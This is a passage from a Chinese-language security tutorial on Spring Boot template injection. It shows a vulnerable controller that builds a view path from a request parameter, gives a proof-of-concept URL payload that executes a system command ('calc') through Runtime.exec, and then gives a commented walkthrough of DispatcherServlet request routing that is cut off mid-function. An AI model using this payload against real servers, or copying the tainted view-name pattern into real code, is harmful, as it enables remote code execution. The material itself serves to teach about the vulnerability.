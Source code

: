 #### 例子 1

观察下面控制函数

```bash
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}
```

正确的 payload：  
`/path?lang=en`  
POC:  
`/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x`

分析：

### 4.4 SpringBoot 请求解析

#### 请求路由

分析 DispatcherServlet.class 的 doDispatch 函数

```bash
protected void doDispatch(HttpServletRequest request, HttpServletResponse response) throws Exception {
    HttpServletRequest processedRequest = request;
    HandlerExecutionChain mappedHandler = null;
    boolean multipartRequestParsed = false;
    // 获取用于处理异步请求的 WebAsyncManager 对象
    WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);

    try {
        try {
            // 视图
            ModelAndView mv = null;
            // 异常
            Exception dispatchException = null;

            try {
                // 检查是否是多部分请求，并对请求进行处理
                processedRequest = this.checkMultipart(request);
                // 如果经过处理的请求对象与原始请求对象不同，说明请求是多部分请求，将multipartRequestParsed标志设置为true
                multipartRequestParsed = processedRequest != request;
                // 获取处理器的执行链
                mappedHandler = this.getHandler(processedRequest);
                // 如果没有找到合适的处理器，调用noHandlerFound方法进行处理，并直接返回
                if (mappedHandler == null) {
                    this.noHandlerFound(processedRequest, response);
                    return;
                }
                // 获取与处理器关联的处理器适配器
                HandlerAdapter ha = this.getHandlerAdapter(mappedHandler.getHandler());
                // 获取请求方法
                String method = request.getMethod();
                boolean isGet = "GET".equals(method);
                if (isGet || "HEAD".equals(method)) {
                    // 获取最近修改情况
                    long lastModified = ha.getLastModified(request, mappedHandler.getHandler());
                    if ((new ServletWebRequest(request, response)).checkNotModified(lastModified) && isGet) {
                        return;
                    }
                }
```